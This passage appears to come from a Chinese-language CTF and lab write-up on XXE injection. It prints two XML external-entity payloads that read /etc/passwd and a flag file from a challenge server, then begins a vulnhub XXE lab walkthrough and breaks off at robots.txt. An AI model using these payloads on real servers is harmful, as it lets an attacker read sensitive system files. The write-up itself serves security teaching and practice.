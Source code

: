 首先，我们看一下地址入口，页面是一个提交框，点击go后，把输入框输入的信息，提交到文本框中

![1612762985_6020cf69a3c68047ebfc3.png!small](https://image.3001.net/images/20210208/1612762985_6020cf69a3c68047ebfc3.png!small)

看一下响应包中的提交数据包和响应包数据：

![1612763004_6020cf7c0beffb49da85d.png!small](https://image.3001.net/images/20210208/1612763004_6020cf7c0beffb49da85d.png!small)

发现，提交数据是以json格式提交的数据。那么对于这种提交方式，去尝试会不会解析xml，那么要修改一下Content-type为xml，然后写一个xml，看响应包解不解析：

![1612763023_6020cf8f8f8b86ba4ce8f.png!small](https://image.3001.net/images/20210208/1612763023_6020cf8f8f8b86ba4ce8f.png!small)

可以看到返回的响应数据包中，返回输入了内容，也就是说服务器成功解析，是由回显的xxe，那么我么那就构造paly了。用我们平常构造的代码，看是否能读passwd文件数据：

构造paylaod

```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPEANY[<!ENTITYxxesSYSTEM"file:///etc/passwd"> ]>
<root>
&xxes;</root>
```

![1612763087_6020cfcfd280e4ca0fe36.png!small](https://image.3001.net/images/20210208/1612763087_6020cfcfd280e4ca0fe36.png!small)

果然成功读出了passwd的内容，那么就去访问flag.txt文件了，构造代码payload：

```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPEANY[<!ENTITYxxesSYSTEM"file:///home/ctf/flag.txt"> ]>
<root>
&xxes;</root>
```

![1612763112_6020cfe80b21b4bed31f1.png!small](https://image.3001.net/images/20210208/1612763112_6020cfe80b21b4bed31f1.png!small)

看到成功获取了flag。

**3.2 vulnhub靶场**

这个靶场是透过我们平常渗透测试思路，信息收集，根据收集的信息查找漏洞，利用漏洞，一步步拿到flag。

网站搭建，下载虚拟机，直接导入vm中就行，下载https://download.vulnhub.com/xxe/XXE.zip

我们导入虚拟机后，需要密码账号进入，这里不需要。

![1612763149_6020d00defec7ea130dc3.png!small](https://image.3001.net/images/20210208/1612763149_6020d00defec7ea130dc3.png!small)

因为是虚拟机导入，就可以知道这个的ip地址：192.168.171.146，通过浏览器访问，出现apache2服务页面

![1612763168_6020d020ced1c5dad7341.png!small](https://image.3001.net/images/20210208/1612763168_6020d020ced1c5dad7341.png!small)

会不会含有其他目录呢，使用目录扫描扫描一下目录：

![1612763190_6020d036aa809b3836550.png!small](https://image.3001.net/images/20210208/1612763190_6020d036aa809b3836550.png!small)

发现robots.txt文件，访问一下：
